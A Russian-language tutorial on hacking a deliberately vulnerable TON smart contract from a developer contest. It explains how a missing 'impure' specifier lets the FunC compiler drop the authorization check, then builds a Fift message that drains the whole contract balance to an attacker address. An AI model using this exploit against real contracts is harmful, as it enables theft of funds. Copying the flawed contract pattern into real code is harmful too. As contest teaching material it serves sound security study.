

# Взламываем простой смарт-контракт в блокчейне TON

## Вступление

В данной статье мы разберем взлом простейшего смарт-контракта в сети TON. Не переживайте, если вы не знаете, что такое TON или как писать смарт-контракты, в данной статье будет и краткий разбор для "профи блокчейн разработки", так и подробный разбор для новичков.

### Что такое TON?

TON — это децентрализованный блокчейн, концепцию этого блокчейна разработала команда Telegram, в 2019 году команда Telegram получила запрет от Американской комиссии по ценным бумагам на выпуск своей криптовалюты, что сделало продолжение работы над блокчейном невозможным, но TON был "передан" независимому сообществу разработчиков The Open Network, которые и занимаются его развитием сейчас. Он может похвастаться сверхбыстрыми транзакциями, небольшими комиссиями, простыми в использовании приложениями и эко логичностью.

Технически с сеть TON это сеть из виртуальных машин [TVM](https://ton-blockchain.github.io/docs/#/smart-contracts/tvm_overview). TVM также позволяет выполнять некоторый код. Разработчики приложений загружают программы в структуру TVM, а пользователи делают запросы на выполнение этих фрагментов кода с различными параметрами. Подобные программы в сетях блокчейн называются смарт-контрактами.

В данном туториале мы разберем взлом простого смарт-контракта, который позволяет двум пользователям создавать взаимной фонд, для управления их средствами.

### Акторная модель

Модель актора — это математическая модель параллельных вычислений, которая лежит в основе смарт-контрактов TON. В нем каждый смарт-контракт может получить одно сообщение, изменить собственное состояние или отправить одно или несколько сообщений в единицу времени. Стоит отметить, что смарт-контракты могут иметь свой баланс.

### Что есть взлом в данном случае

Так как смарт-контракты в акторной модели "общаются" с помощью сообщений, то взлом в данном случае, это сообщение, которое выведет все средства с баланса смарт-контракта на адрес злоумышленника.

### FunC и Fift

Смарт-контракты TON выполняются на виртуальной машине TON. Для разработки смарт-контрактов есть язык низкоуровневый Fift, а также высокоуровневый FunC.

В TON часто проводятся различные конкурсы для разработчиков, контракт и взлом, который мы будем разбирать, как раз с одного из таких конкурсов.

> Если вы хотите познакомиться разработкой на TON, то я делаю бесплатные уроки и публикую их на github, посмотреть их можно по [ссылке](https://github.com/romanovichim/TonFunClessons_ru).

### Как построен разбор

Вначале кратко разберем смарт-контракт и концепцию взлома. Потом разберем контракт максимально подробно, таким образом если вы не знакомы с разработкой в сети TON вы можете начать сразу с подробного разбора.

## Краткий разбор

Прежде чем разбирать, как взломать контракт, давайте разберем его. 

### Разбираем смарт-контракт

Смарт-контракт реализует следующую логику: 

Контракт представляет собой очень упрощенный взаимный фонд, для двух человек, он позволяет им отправляя сообщения в контракт управлять балансом контракта.

> В TON акторная модель смарт-контрактов, каждый смарт-контракт может получить одно сообщение, изменить собственное состояние или отправить одно, или несколько сообщений в единицу времени, таким образом взаимодействие происходит за счёт сообщений.

В своем хранилище контракт, хранит два адреса, при отправке сообщения, контракт проверяет, что сообщение прислано именно от одного из этих адресов (некая авторизация) и далее кладет тело сообщения в регистр с5(регистр выходных действий), позволяя таким образом распоряжаться средствами смарт-контракта.

Код смарт-контракта: 

	{-

	  !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
	  Contract contains intentional bugs, do not use in production

	-}

	#include "stdlib.func";

	;; storage#_ addr1:MsgAddress addr2:MsgAddress = Storage;

	() execute (cell) impure asm "c5 POPCTR";

	global slice addr1;
	global slice addr2;

	() load_data () impure {
	  slice ds = get_data().begin_parse();
	  addr1 = ds~load_msg_addr();
	  addr2 = ds~load_msg_addr();
	}

	() authorize (sender) inline {
	  throw_unless(187, equal_slice_bits(sender, addr1) | equal_slice_bits(sender, addr2));
	}

	() recv_internal (in_msg_full, in_msg_body) {
		if (in_msg_body.slice_empty?()) { ;; ignore empty messages
			return ();
		}
		slice cs = in_msg_full.begin_parse();
		int flags = cs~load_uint(4);

		if (flags & 1) { ;; ignore all bounced messages
			return ();
		}
		slice sender_address = cs~load_msg_addr();

		load_data();
		authorize(sender_address);

		cell request = in_msg_body~load_ref();
		execute(request);
	}

Пройдемся по коду, вначале смарт-контракта пишем вспомогательную функцию для работы с хранилищем смарт-контракта, функция `load_data()` загрузит из `c4` два адреса в глобальные переменные `addr1`, `addr2`. Предполагается, что логику смарт-контракта, можно будет "запустить" только с этих адресов.

	#include "stdlib.func";

		;; storage#_ addr1:MsgAddress addr2:MsgAddress = Storage;

		global slice addr1;
		global slice addr2;

		() load_data () impure {
		  slice ds = get_data().begin_parse();
		  addr1 = ds~load_msg_addr();
		  addr2 = ds~load_msg_addr();
		}

Далее идет, метод `recv_internal()`, который в самом своем начале, проверяет, что сообщение не пустое, пропускает флаги сообщения, и достает адрес отправителя из сообщения:

	() recv_internal (in_msg_full, in_msg_body) {
		if (in_msg_body.slice_empty?()) { ;; ignore empty messages
			return ();
		}
		slice cs = in_msg_full.begin_parse();
		int flags = cs~load_uint(4);

		if (flags & 1) { ;; ignore all bounced messages
			return ();
		}
		slice sender_address = cs~load_msg_addr();

	}

Дальше, достаем адреса из хранилища, и проверяем, что адрес отправителя сообщения в смарт-контракт совпадает с одним из адресов из хранилища.

	() authorize (sender) inline {
	  throw_unless(187, equal_slice_bits(sender, addr1) | equal_slice_bits(sender, addr2));
	}

	() recv_internal (in_msg_full, in_msg_body) {
		if (in_msg_body.slice_empty?()) { ;; ignore empty messages
			return ();
		}
		slice cs = in_msg_full.begin_parse();
		int flags = cs~load_uint(4);

		if (flags & 1) { ;; ignore all bounced messages
			return ();
		}
		slice sender_address = cs~load_msg_addr();

		load_data();
		authorize(sender_address);

		}
	
Именно здесь, находится уязвимость, отсутствие спецификатора `impure` в функции `authorize()` приведет к удалению её компилятором, так как по документации:

`impure` спецификатор означает, что функция может иметь некоторые побочные эффекты, которые нельзя игнорировать. Например, мы должны указать нечистый спецификатор, если функция может изменять хранилище контрактов, отправлять сообщения или генерировать исключение, когда некоторые данные недействительны и функция предназначена для проверки этих данных.

Если не указано `impure` и результат вызова функции не используется, то компилятор FunC может и удалит этот вызов функции.

В конце смарт-контракта, происходит запись тела сообщения в регистр выходных действий `с5`. Таким образом, для взлома нам просто надо отправить туда сообщение, которое выведет крипто валюту Toncoin со смарт-контракта.

	() execute (cell) impure asm "c5 POPCTR";
	
	() recv_internal (in_msg_full, in_msg_body) {
		if (in_msg_body.slice_empty?()) { ;; ignore empty messages
			return ();
		}
		slice cs = in_msg_full.begin_parse();
		int flags = cs~load_uint(4);

		if (flags & 1) { ;; ignore all bounced messages
			return ();
		}
		slice sender_address = cs~load_msg_addr();

		load_data();
		authorize(sender_address);

		cell request = in_msg_body~load_ref();
		execute(request);
	}

### Разбираем сообщение для взлома

Для отправки сообщения нам надо написать скрипт на fift (который выдаст нам структуру bag of cells, которую мы отправим в сеть TON), начнем с тела сообщения, для этого нам понадобиться `<b  b>` 

	"TonUtil.fif" include
	<b  b> =: message

По документации, самое сообщение может выглядеть так (далее код на FunC):

	  var msg = begin_cell()
		.store_uint(0x18, 6)
		.store_slice(addr)
		.store_coins(amount)
		.store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
		.store_slice(message_body)
	  .end_cell();

Поэтому запишем в тело, адрес на который мы хотим вывести Toncoin, количество обозначим как 0 Gram, в тело не будем ничего писать, получаем:

	"TonUtil.fif" include
	<b 0x18 6 u, 0 your address Addr, 0 Gram, 0 1 4 + 4 + 64 + 32 + 1 + 1 + u, b> =: message

Но в регистр `c5` надо будет положить не сообщение, а действие надо этим сообщением. Отправлять сообщение будем с помощью `SENDRAWMSG`.

Но сначала разберемся, как храниться данные в регистре `c5`. Вот [здесь](https://ton-blockchain.github.io/docs/#/smart-contracts/tvm_overview?id=result-of-tvm-execution) в документации написано, что это ячейка, с ссылкой на предыдущее действие, и с последним действием. Предыдущего действия у нас нет, поэтому будет пустой `Builder`.

	<b <b b> ref, здесь будет отправка сообщения ref, b>

> ref - добавляет к Builder b ссылку на Cell c.

Переходим к `SENDRAWMSG`, "код" функции возьмем из [371 строки здесь, прямо из блока](https://github.com/ton-blockchain/ton/blob/d01bcee5d429237340c7a72c4b0ad55ada01fcc3/crypto/block/block.tlb) и посмотрим, по [документации TVM на 137 странице](https://ton-blockchain.github.io/docs/tvm.pdf), какие параметры надо собрать:

- "код" функции: 0x0ec3c86d 32 u
-  режим отправки сообщения, в нашем случае 128, т.к хотим вывести все средства 128 8 u
- и сообщение message

> x u - uint битности x

Получаем:

 	<b <b b> ref, 0x0ec3c86d 32 u, 128 8 u, message ref, b>
 
Теперь оборачиваем это все еще в один builder, т.к. нам нужна ячейка для сообщения:

	"TonUtil.fif" include
	<b 0x18 6 u, 0 your address Addr, 0 Gram, 0 1 4 + 4 + 64 + 32 + 1 + 1 + u, b> =: message

	<b <b <b b> ref, 0x0ec3c86d 32 u, 128 8 u, message ref, b> ref, b>

### Как отправить сообщение?

В TON есть несколько удобных вариантов отправки `internal` сообщения, первый это отправка через [toncli](https://github.com/disintar/toncli):

> toncli - удобный интерфейс командной строки

1) Сначала собираем fift скрипт, что мы уже сделали
2) Используем команду `toncli send`

Туториал с картинками) [тут](https://github.com/disintar/toncli/blob/master/docs/advanced/send_fift_internal.md).

Второй, удобный вариант это библиотека на Go tonutils-go, как отправлять сообщение используя tonutils-go, есть в одном из моих [предыдущих уроков](https://github.com/romanovichim/TonFunClessons_ru/blob/main/14lesson/wallet.md#%D0%BE%D1%82%D0%BF%D1%80%D0%B0%D0%B2%D0%BB%D1%8F%D0%B5%D0%BC-%D1%81%D0%BE%D0%BE%D0%B1%D1%89%D0%B5%D0%BD%D0%B8%D0%B5).

## Подробный разбор

### Разбираем код контракта взаимный фонд

#### Хранилище смарт-контракта

Разбор кода начнем с "хранилища"  смарт-контракта, хранилищем постоянных данных смарт-контракта в сети TON выступает регистр  c4.

> Подробнее с регистрами можно ознакомиться [здесь](https://ton-blockchain.github.io/docs/tvm.pdf)  в пункте 1.3

Для удобства, пропишем комментарием, что мы будем хранить в контракте, а хранить мы будем два адреса(`addr1` и `addr2`):

	;; storage#_ addr1:MsgAddress addr2:MsgAddress = Storage;

 >  ;;  две точки с запятой синтаксис однострочного комментария
 
#####  Каркас вспомогательной функции
 
Для удобства работы с хранилищем, напишем вспомогательную функцию, которая будет выгружать данные, сначала объявим её:

	() load_data () impure {

	}

> `impure` — ключевое слово, которое указывает на то, что функция изменяет данные смарт-контракта. Мы должны указать `impure` спецификатор, если функция может изменять хранилище контрактов, отправлять сообщения или генерировать исключение, когда некоторые данные недействительны и функция предназначена для проверки этих данных. **Важно**: Если не указано impure и результат вызова функции не используется, то компилятор FunC может удалить этот вызов функции.

#####  Глобальные переменные и типы данных

Хранить адреса в данном смарт-контракте предполагается в глобальных переменных типа `slice`. В TON есть 4 основных типа:

В нашем просто смарт контракте мы будем использовать всего лишь четыре типа:

- Cell(ячейка) - Ячейка TVM, состоящая из 1023 бит данных и до 4 ссылки на другие ячейки
- Slice(слайс)- Частичное представление ячейки TVM, используемой для разбора данных из ячейки
- Builder - Частично построенная ячейка, содержащая до 1023 бит данных и до четырех ссылок; может использоваться для создания новых ячеек
- Integer - знаковое 257-разрядное целое число

Подробнее о типах в FunC:
[кратко здесь](https://ton-blockchain.github.io/docs/#/smart-contracts/)
[развернуто здесь в разделе 2.1](https://ton-blockchain.github.io/docs/fiftbase.pdf)

Говоря простым языком, что cell - это запечатанная ячейка, slice - это когда ячейку можно читать, а builder - это когда собираешь ячейку.

Чтобы сделать переменную [глобальной](https://ton-blockchain.github.io/docs/#/func/global_variables?id=global-variables) необходимо добавить ключевое слово `global`.

Объявим два адреса тип `slice`:

	global slice addr1;
	global slice addr2;

	() load_data () impure {

	}

Теперь во вспомогательной функции достанем адреса из регистра и передадим их в глобальные переменные.

#####  Хранилище данных в TON или регистр с4

Для того чтобы "достать" данные из с4 нам понадобятся две функции из [стандартной библиотеки FunC ](https://ton-blockchain.github.io/docs/#/func/stdlib) .

А именно:
`get_data`   - берет ячейку из c4 регистра.
`begin_parse` -   ячейку преобразует в slice 

Передадим это значение в слайс ds:

	global slice addr1;
	global slice addr2;

	() load_data () impure {
	  slice ds = get_data().begin_parse();

	}

#####  Выгружаем адрес 

Загрузим из ds адреса с помощью `load_msg_addr()` - которая загружает из слайса единственный префикс, который является допустимым MsgAddress. У нас их два, так что 'выгружаем' два раза. 

> `load_msg_addr()`  является функцией стандартной бибилиотеки, поэтому не забудем добавить саму библиотеку c помощью директивы [include](https://ton-blockchain.github.io/docs/#/func/compiler_directives?id=include)

	#include "stdlib.func";

	;; storage#_ addr1:MsgAddress addr2:MsgAddress = Storage;

	global slice addr1;
	global slice addr2;

	() load_data () impure {
	  slice ds = get_data().begin_parse();
	  addr1 = ds~load_msg_addr();
	  addr2 = ds~load_msg_addr();
	}
	
#### "Тело" смарт-контракта

Чтобы смарт-контракт мог реализовывать какую-либо логику, необходимо, чтобы он имел методы, к которым можно обращаться. 

#####  Зарезервированные методы

У смарт-контрактов в сети TON есть два зарезервированных метода, к которым можно обращаться.

Первый, `recv_external()` эта функция выполняется когда запрос к контракту происходит из внешнего мира, то есть не из TON, например когда мы сами формируем сообщение и отправляем его через lite-client (Про установку lite-client). Второй, `recv_internal()` эта функция выполняется когда внутри самого TON, например когда какой-либо контракт обращается к нашему.

Легкий клиент (англ. lite-client) — это программное обеспечение, которое подключается к полным узлам для взаимодействия с блокчейном. Они помогают пользователям получать доступ к блокчейну и взаимодействовать с ним без необходимости синхронизации всего блокчейна.

В данном смарт-контракте используется `recv_internal()`:

	() recv_internal (in_msg_full, in_msg_body) {

	}
	
Здесь должен возникнуть вопрос, что за  `in_msg_full`, `in_msg_body`.
В соответствии с документацией [виртуальной машины TON - TVM](https://ton-blockchain.github.io/docs/tvm.pdf), когда на счете в одной из цепочек TON происходит какое-то событие, оно вызывает транзакцию. 

Каждая транзакция состоит из до 5 этапов. Подробнее [здесь](https://ton-blockchain.github.io/docs/#/smart-contracts/tvm_overview?id=transactions-and-phases).

Нас интересует **Compute phase**. А если быть конкретнее, что "в стеке" при инициализации. Для обычных транзакций, вызванных сообщением, начальное состояние стека выглядит следующим [образом](https://ton-blockchain.github.io/docs/#/smart-contracts/tvm_overview?id=initialization-of-tvm):

5 элементов:
- Баланс смарт-контракта(в наноТонах)
- Баланс входящего сообщения (в наноТонах)
- Ячейка с входящим сообщеним 
- Тело входящего сообщения, тип слайс
- Селектор функции (для recv_internal это 0)

В логике данного смарт-контракта, нам не нужен баланс итд, поэтому в виде аргументов написаны `in_msg_full`, `in_msg_body`, ячейка с входящим сообщением и тело входящего сообщения.

#####  Наполняем метод - проверка на пустые сообщения

Первое, что сделаем внутри `recv_internal()` это отбросим обработку пустых сообщений. Cделаем проверку используя `slice_empty()` (функция стандартной библиотеки, [ссылка на описание в документации](https://ton-blockchain.github.io/docs/#/func/stdlib?id=slice_empty)) и закончим выполнение смарт-контракта в случае пустого сообщения с помощью `return()`.

	() recv_internal (in_msg_full, in_msg_body) {
		if (in_msg_body.slice_empty?()) { ;; ignore empty messages
			return ();
		}
	}

Далее надо взять адрес из полного сообщения, но сообщение необходимо распарсить, прежде чем мы "доберемся до адреса".
Чтобы мы могли взять адрес, нам необходимо преобразовать ячейку в слайс c помощью `begin_parse`:

	slice cs = in_msg_full.begin_parse();

#####  Вычитываем сообщение - пропускаем флаги

Теперь нам надо "вычитать" до адреса полученный slice. С помощью `load_uint` функции из [стандартной бибилотеки FunC ](https://ton-blockchain.github.io/docs/#/func/stdlib) она загружает целое число n-бит без знака из слайса, "вычитаем" флаги.

	int flags = cs~load_uint(4);

В данном уроке мы не будем останавливаться подробно на флагах, но подробнее можно прочитать в пункте [3.1.7](https://ton-blockchain.github.io/docs/tblkch.pdf).

После получения флагов, проигнорируем не инетерсующие нас отскочившие сообщения:

	() recv_internal (in_msg_full, in_msg_body) {
		if (in_msg_body.slice_empty?()) { ;; ignore empty messages
			return ();
		}
		slice cs = in_msg_full.begin_parse();
		int flags = cs~load_uint(4);

		if (flags & 1) { ;; ignore all bounced messages
			return ();
		}
	}
	
#####  Достаем адрес отправителя
	
Наконец-то мы можем взять адрес отправителя из сообщения, возьмем его с помощью уже знакомой нам `load_msg_addr()` и сразу же воспользуемся вспомогательной функцией, которую написали ранее, для подгрузки адресов из регистра `с4`:

	() recv_internal (in_msg_full, in_msg_body) {
		if (in_msg_body.slice_empty?()) { ;; ignore empty messages
			return ();
		}
		slice cs = in_msg_full.begin_parse();
		int flags = cs~load_uint(4);

		if (flags & 1) { ;; ignore all bounced messages
			return ();
		}
		slice sender_address = cs~load_msg_addr();

		load_data();

	}
	

#####  "Авторизация"

Теперь, прежде чем переходить к логике смарт-контракта, хорошо бы проверить, что адрес отправителя, это либо первый, либо второй адрес из хранилища, т.е. сделаем так, чтобы дальнейшая логика исполнялся только владельцами смарт-контракта. Для этого сделаем вспомогательную функцию `authorize()`:

	() authorize (sender) inline {

	}

Спецификатор же `inline` помещает тело функции прямо в код родительской функции.

В случае, если сообщение будет получено, не от наших двух адресов выдадим исключение и закончим выполение смарт-контракта.Для этого будем использовать [встроенные](https://ton-blockchain.github.io/docs/#/func/builtins) исключения. 

#####  Исключения

Исключения могут быть вызваны условными примитивами `throw_if` и `throw_unless` и безусловным `throw`.

Воспользуемся `throw_if` и передадим любой код ошибки.

	() authorize (sender) inline {
	  throw_unless(187, equal_slice_bits(sender, addr1) | equal_slice_bits(sender, addr2));
	}
	
>  `equal_slice_bit` - функция из стандартной библиотеки, проверят равенство

#####  Та самая ошибка, которая позволяет взломать контракт

B вроде бы все, но именно здесь кроется ошибка, которая позволяет взломать смарт-контракт - данная функция будет удалена при компиляции, так как в ней отсутствует спецификатор `impure`

В соответствии с документацией:

`impure` спецификатор означает, что функция может иметь некоторые побочные эффекты, которые нельзя игнорировать. Например, мы должны указать `impure` спецификатор, если функция может изменять хранилище контрактов, отправлять сообщения или генерировать исключение, когда некоторые данные недействительны и функция предназначена для проверки этих данных.

Если не указано `impure` и результат вызова функции не используется, то компилятор FunC может и удалит этот вызов функции.

Именно поэтому данный контракт уязвим - авторизация просто исчезнет при компиляции.

#####  Логика контракта

Несмотря на найденную уязвимость до разберём контракт до конца: достанем из тела сообщения ячейку с запросом:

	cell request = in_msg_body~load_ref();

> load_ref() - загружает первую ссылку из слайса.

остается самый последний кусочек, функция `execute()`:

	() recv_internal (in_msg_full, in_msg_body) {
		if (in_msg_body.slice_empty?()) { ;; ignore empty messages
			return ();
		}
		slice cs = in_msg_full.begin_parse();
		int flags = cs~load_uint(4);

		if (flags & 1) { ;; ignore all bounced messages
			return ();
		}
		slice sender_address = cs~load_msg_addr();

		load_data();
		authorize(sender_address);

		cell request = in_msg_body~load_ref();
		execute(request);
	}
	
##### Наполняем регистр с5

FunC поддерживает определение функции на ассемблере (имеется ввиду Fift). Происходит это следующим образом - мы определяем функцию как низкоуровневый примитив TVM. В нашем случае:

	() execute (cell) impure asm "c5 POPCTR";

Как вы можете видеть, используется ключевое слово `asm` 

POPCTR c(i) -  извлекает значение x из стека и сохраняет его в управляющем регистре c(i),

Посмотреть список возможных примитивов можно с 77 страницы в [TVM](https://ton-blockchain.github.io/docs/tvm.pdf).

##### Регистр с5

Регистр `с5` содержит выходные действия. Соответственно мы можем положить сюда сообщение, которое выведет средства.

## Заключение 

Подобные туториалы и разборы по сети TON я пишу в свой канал - https://t.me/ton_learn . Буду рад вашей подписке.

